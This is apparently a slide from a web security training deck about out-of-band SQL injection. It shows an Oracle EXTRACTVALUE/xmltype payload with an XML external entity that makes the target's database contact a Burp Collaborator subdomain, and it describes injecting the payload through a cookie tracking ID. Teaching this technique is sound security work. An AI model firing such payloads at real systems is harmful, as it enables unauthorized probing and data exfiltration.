

# Out of Band Interaction
Query for DNS LOOKUP
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual

 http://BURP-COLLABORATOR-SUBDOMAIN/"- This needs to be replaced by the payload generated by the Collaborator of Burp- Suite which is also a burp Collaborator Subdomain. like
We will add it with the Cookie Tracking ID lets say we have burp collaborator subdomain as  cp5dabrggjp1lelmcffmpbx1lsrjf93y.oastify.com